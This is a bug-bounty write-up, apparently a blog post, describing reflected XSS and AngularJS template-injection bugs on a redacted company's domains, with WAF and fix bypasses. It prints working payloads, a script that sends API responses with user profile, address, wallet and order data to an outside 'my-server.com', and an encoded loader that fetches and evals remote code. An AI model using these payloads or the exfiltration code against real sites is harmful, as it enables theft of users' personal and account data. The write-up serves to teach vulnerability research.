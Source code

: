 
##
#
https://infosecwriteups.com/stealing-your-data-using-xss-bf7e4a31e6ee
#
##

Hello peeps 🐥

This article is all about utilizing my lock-down time in finding bugs under a private program whose name has to be redacted here. █████’s program is active since years with list of professional & responsible hackers named in their Hall Of Fame till today’s year. Still I managed to find multiple XSS and escalated impact of one XSS to sensitive data stealing. So let’s get started 🤙.

Note: This article wants to help new-comers to understand impact escalation and get in-depth knowledge for XSS vulnerabilities.


Timeline:
14.04.2020
Turned on machine, started active + passive discovery of domains and all in-scope assets of █████. Used many tools like Sublist3r, Amass, findomain, subfinder, etc. At last I merged all outputs and made one list.

I believe less in automation testing and laziness 🙃 so I sorted the list and probed them all. Visited each domain one-by-one and ffufed domains which seemed potentially juicy to me. This game goes on.


17.04.2020
After 2 days of manually doing everything, for a domain I got a good list of endpoints using waybackurls, used Arjun to find valid parameters and then got a beautiful reflection 😍.

Payload:
1"><div+onload=alert()>XSS-FOREVER</div>
After this I got more positive vibes 😃 that I can really find more, so the game still goes on 🥱.

18.04.2020
Day after 1st report, got wake up early and without having breakfast turned the machine on to deep dive more into this.


During this hunt, I found potential input for XSS on █████’s important sub-domain which is important.█████.com. This domain is generally referred for login and authentication purpose. At that moment, this thing just brought adrenaline in my blood 🔥 . As this mentioned domain is used in production environment, this had very tough WAF rules which does block every try for the XSS to pop!

Let’s talk deeper about how I bypassed WAF!
Things which were blocked: 'single quotes, <> tags character, ` back-tick, [] square brackets and all other XSS keywords like alert, prompt, console.log and so on.

So I had very limited white-listed characters i.e. () round brackets, “ double quotes, {} curly bracket

The reflection was happening at this point:

<tag ng-init=“█████= { … parameter: ‘reflection’, … }” >

Started with escaping ng-init using ” and using onload=alert() but sadly this was blocked entirely, that means onload= was blocked also alert() was blocked. I couldn’t end this tag as <> were restricted. Tried each and every event handler still no one worked here! Took some break! 🥱

“You need to take a break away from your work area so when you return you are more refreshed and ready to work.” — Byron Pulsifer

After returning back my eyes just saw ng-init which means this is AngularJS application, also this reminded me about XSS using AngularJS injections, generally referred as Client-Side-Template-Injection. Googled this within next second and landed here: PortSwigger Article.

Started with basic confirmation:

{{7*7}} => reflected as => 49

After confirmation I tried with XSS payloads:

{}.”)));foo(1)//”;

Now this injection point was confirmed to injection, but functions like alert() and others were blocked very precisely. Looked around web for AngularJS XSS medium articles, write-ups, security research papers and much more. Investing few hours into this resulted into a valid payload, but the issue was length or completing the payload in one part. So I broke the payload into 2 parts and used 2 different injection points.

Bypassed blocked JS functions using:

_=prompt,_(1)

Final working payload:

{{“a”.constructor.prototype.charAt="".valueOf;$eval("foo()//");}}

Now the issue was $eval() was also getting blocked and we know that payloads which are string needs to get $eval() for execution. Whole payload was working, but everything got stuck at $eval() 🤦🏽‍♂️. Again took some break and read about development docs of Angular to find any alternative function like eval() did not found one easily. Moved to reading security research papers for AngularJS, this took alot of time and attention. Finally found one function of AngularJS which can do so.

Bypassed blocked Angular function using:

$eval() => changed to => $evalAsync()

Okayy, now for all the blocked entities, I had bypasses in-hand, merged them all and formed a final payload in 2 parts and final payload was this

https://important.█████.com/█████/█████?...&param1=value1"+ng-value={{a="a".constructor.prototype;a.charAt="".valueOf}}&param2=value2+ng-val={{$evalAsync("x=(_=prompt,_(1))//")}}
And BOOM 🥳 🎉! I got XSS on █████’s second most important domain, drafted a good report and mailed them and this was my moment.


Surprisingly there were many sub-domains of same production domain which were similar. So the same XSS was existing on all this sub-domains too and I reported them all 💰💰💰.


There were 3 vulnerable endpoints and across 4 similar domains. This went for 4–5 days and then I moved to another asset to look around.

Conclusion: If you find a valid injection point, note down what’s allowed and what’s blocked? Keep mind to adapt environment of app, if any specific thing is blocked look around, look for bypass and different way to specify or mean the same thing, use browser’s console for trial and error. Don’t stop, just bang it!

27.04.2020
After completion of above said method of bug-hunting, I started looking into APIs working manner and all other things. While testing out things, I found very unusual redirection for 404 — Not Found case, page was being loaded and then redirection was made to root endpoint i.e. https://█████.com/ I also got intuitions that something is fishy here 🧐.


Read source code of the page, as page had too much HTML code, but was being redirected to root endpoint even before rendering of page. Handed this page to Arjun 🏹 for finding any hidden parameter for any error message or something like that. Found a valid parameter which was being reflected in <script>tag’s string assignment i.e.

var foo = 'reflection'

This reflection also had only one blocked entity i.e. “ double quotes and on random basis some symbols were not appearing in response,else there was no blocking of any confirm() or eval() or anything. I was amazed and surprised at the same time!


Again, I confirmed basic injection:

Payload: ?foo='+alert()+'

Reflected: var foo = ''+alert()+'' and beautiful alert at █████’s primary domain, this moment was unexpected and simply amazing! Just Imagine This!

But this time, I didn’t want to just report alert(1)🤧 . While testing APIs, I came to know APIs call can be made only from https://█████.com main-top domain and no sub-domains. So I just wanted to use this golden chance to escalate this to something higher. I googled and read many reports in which attackers demonstrated the impact escalation of XSS. Reading such things gave me great ideas to perform something out-of-box🤔.

The Idea:
Let’s call the APIs and copy their response and send that response to my personal server. Sounds very simple right? Haha, it wasn’t so easy🥴!

🚀 Try 0x01:
As I am a person who is known to development and have on-hand experience with JavaScript while project development, so it was easy to get logic in my mind and the same in the code, but as I knew that I had very small window available, as the page where reflection is happening will be in redirection once page gets loaded. For the same, I used some fast-working logic instead of regular old way of using AJAX and then handling with their response success error and bla bla 👽.

JavaScript snippet that I made for performing my idea:

function fe(t) {
    fetch(t).then(t => t.text()).then(t => {
        fetch("https://my-server.com/log/?p=" + btoa(t))
    })
}
urls = ["https://█████.com/v1/api/.../...", 
        "https://█████.com/v2/api/.../...", 
        "https://█████.com/v3/api/.../...",
        ...
], urls.forEach(fe);
I think reading this twice or thrice will make you understand what is happening here. In summary: I have mentioned a function fe() which will make GET request to parameter value passed to this function, upon getting response back from server, make another GET request to my-server.com with base64 encoded value of response body. Next is list of urls which has to be called and we wish to collect, after completion of this list, call forEach() which will do our looping implicitly, without explicitly mentioning any for() or while() loop 🤖 .

Problem: This code snippet was very long for GET request length capacity

Solution: I hosted this JavaScript code on my server and now at the injection point, I just need to call this JavaScript code. Simple? Not really. As I have access to limited JavaScript context and CSP was also implemented.

🚀 Try 0x02:
I had access to eval(), so let’s add our hosted JavaScript using eval(). Read a lot of ways to do this, but they weren’t as fast as it was required, because the page where injection was happening, redirects to root endpoint once page loads. So I referred JavaScript docs from Mozilla. This helped me to get the desired speed for eval()ing my commands using async and await that would get my hosted script and execute it 💀.

JavaScript code for the primary injection point:

!async function() {
    let a = await
    function() {
        fetch('https://my-server.com/log.js').then(t => t.text()).then(d => {
            eval(d)
        })
    }()
}();
In summary: I have called this function importantly in asynchronous mode, calling one more function inside the function which is in await mode, which does make a request of my hosted JavaScript which is talked above. After getting response of this request, I have again eval()ed my JavaScript here, which solves the problem mentioned above. This solution can said to be proof of bypassing CSP rules for not allowing running script from un-trusted source.

Problem: Writing this too in GET request seems to generate errors at browser-end, didn’t knew why?

Solution: I did base64 encode entire above code snippet and submit this to decodeURIComponent() and passing that to atob() and passing that to eval() . Quite confusing?

█████.com/?foo='+eval(atob(decodeURIComponent('IWFzeW5jIGZ1bmN0aW9uKCkge2xldCBhID0gYXdhaXQgZnVuY3Rpb24oKSB7ZmV0Y2goJ2h0dHBzOi8vbXktc2VydmVyLmNvbS9sb2cuanMnKS50aGVuKHQgPT4gdC50ZXh0KCkpLnRoZW4oZCA9PiB7ZXZhbChkKX0pfSgpfSgpOwo=')))+'
Problem: Everything worked as desired, everything worked PERFECT, but for every 2/5 tries, page redirection would happen even before data stealing occurs.

🚀 Try 0x03:
For preventing the redirection from happening, I know that I have to break things, which may generate JavaScript errors, which eventually breaks JavaScript before reaching to redirection state. But before breaking the case, I had to perform all this actions and then I wish to have a explicit break.

After analyzing and many trial and errors, here was the final payload that I used to exploit data stealing.

█████.com/?foo='+eval(atob(decodeURIComponent('IWFzeW5jIGZ1bmN0aW9uKCkge2xldCBhID0gYXdhaXQgZnVuY3Rpb24oKSB7ZmV0Y2goJ2h0dHBzOi8vbXktc2VydmVyLmNvbS9sb2cuanMnKS50aGVuKHQgPT4gdC50ZXh0KCkpLnRoZW4oZCA9PiB7ZXZhbChkKX0pfSgpfSgpOwo=')))+'});var foo='{ 1,
This final payload, stopped redirection + executed things in the way I was wishing to see. 🤟 It was really challenging, as this was my first on-hand experience to deal with such issues and solving them in any real BB program.

At this moment, this malicious crafted URL can be shared and populate around the user, user’s whose account is logged-in will get directly affected by this. There will be zero-sign of data being steal in background. I demonstrated passive activity like calling APIs and routing them to my server and collect them. For any logged-in user who clicks this crafted URL, the risks are:

Leakage of user profile details like: fullname, email, mobile number, date of account creation, user type, userids, ssotoken and much more.
Leakage of user address details like: all added address, receiver name, addressid, complete address, mobile number, timestamp.
Leakage of user wallet details like: balance available in wallet, ownedGUID, ssoId.
Leakage of Order details: orderId, ordered item, quantity, status and basically every order detail you see in your profile.
Besides all these, I can passively enumerate each and every action which is done by the logged in user like wallet statement, order history, frequently recharged mobile numbers list and much more and all this can be done by just adding more API address in the JavaScript code which is hosted at my server.
One more thing to note over here is, this attack is not restricted to passive actions, I could perform more active actions, like transferring wallet balance, do order without interaction and many more things using its API call, performing mobile recharge, deleting user address, unsubscribe from subscriptions, and many more things. But I did a mistake that I hadn’t provided POC for this active attacks, which eventually decreased reward amount. Not a problem, one more lesson learnt 💪.

Let’s talk about fixes bypass!
After reporting all of them, █████ started to deploy fixes and would notify me for the same. For the XSS, █████ tried to apply the fix upon my submitted payloads. But still I bypassed their fixes 3–4 times. I think this is also worth sharing for newcomers 😀. Let’s break this into 3 threads.

1. First XSS:
Fix made for my first report payload, payload is:

1"><div+onload=alert()>XSS-FOREVER</div>
Bypassed fix for this one using:

1\"><x+onpointerover=alert`xss-bypass`>CLICK+HERE+FOR+DETAILS+OF+ERROR</form></body></html>
<div> , onload and () got black-listed. Used <x> , onpointerover and alert`` to bypass.

One more fixed applied by them, but again bypassed that using Chrome-specific event handler.

1\"><x+onpointerrawupdate=alert`xss-bypass`>CLICK+HERE+FOR+DETAILS+OF+ERROR</form></body></html>
One more fixed applied for this, and finally it got non-vulnerable as of now.

2. Data Stealing using XSS
Fix made for my first report payload, payload is:

█████.com/?foo='+eval(atob(decodeURIComponent('IWFzeW5jIGZ1bmN0aW9uKCkge2xldCBhID0gYXdhaXQgZnVuY3Rpb24oKSB7ZmV0Y2goJ2h0dHBzOi8vbXktc2VydmVyLmNvbS9sb2cuanMnKS50aGVuKHQgPT4gdC50ZXh0KCkpLnRoZW4oZCA9PiB7ZXZhbChkKX0pfSgpfSgpOwo=')))+'});var foo='{ 1,
Bypassed this one using:

() were blocked and fix was asked to get confirmed, bypassed this one using URL-encoding ( =>%28, ) => %29 and using backtick ` .

█████.com/?foo='+eval%28atob%28decodeURIComponent%28'IWFzeW5jIGZ1bmN0aW9uKCkge2xldCBhID0gYXdhaXQgZnVuY3Rpb24oKSB7ZmV0Y2goJ2h0dHBzOi8vbXktc2VydmVyLmNvbS9sb2cuanMnKS50aGVuKHQgPT4gdC50ZXh0KCkpLnRoZW4oZCA9PiB7ZXZhbChkKX0pfSgpfSgpOwo='%29%29%29+'}%29;var foo='{ 1,
One more fixed applied for this, and finally it got non-vulnerable as of now.

3. Bunch of XSS
Fix made for my first report payload, payload is:

https://important.█████.com/█████/█████?...&param1=value1"+ng-value={{a="a".constructor.prototype;a.charAt="".valueOf}}&param2=value2+ng-val={{$evalAsync("x=(_=prompt,_(1))//")}}
This payload already had lot of bypasses. Still when this got blocked I managed to bypass blocking of () using ` (Applicable to all other important domain except important.█████.com)

Bypassed this with this payload:

https://important.█████.com/█████/█████?...&param1=value1"+ng-val={{{}.")));x=alert;x(1)//"}}+"
They fixed this one too, so I bypassed fix once again using:

https://important.█████.com/█████/█████?...&param1=value1"+ng-val={{{}.")));new+Function`al\ert\`XSS-By-Viren\``;//"}}+"
The blocking word “alert” was bypassed using al\ert which words fine and one more fixed applied for this, and finally it got non-vulnerable as of now.

Coming to the end, bug bounty is not just about finding and reporting bugs to get rewarded, but it’s all about being creative, furious and smart, and one of the important thing to work with passion not for money, I have mentioned timeline just to make new-comers understand that it can take time to get more and more bugs, so just chill and do hunting. This was the story of multiple sleeping XSS in █████ and finding bugs from sub-domains to primary sub-domains and primary domain.

For all this bugs I was awarded by █████’s Bug Bounty Program.

██.██.2020 : INR █████ for the stealing user information report

██.██.2020 : INR █████ for the all other XSS reports

First thanks to █████’s Security Team, for good co-operation and for being active and responding to me. I have noticed many companies which doesn’t even reply to your mail, and █████ having such good platform for security researcher is worth exceptional mention over here.

Most sincere thanks to Somdev Sangwan 🙏 for his awesome repository about XSS, that repository and the knowledge shared over there is the true source of my learning. For fix bypasses and advance payload I use PayloadAllThings repository 🔥.

I would like to mention tribute to that almighty 🙏 Lord Rama and 🙏 Lord Hanuman. I believe that without their grace, I am nothing and everything to me is their gift. I bow them and will always bow them.
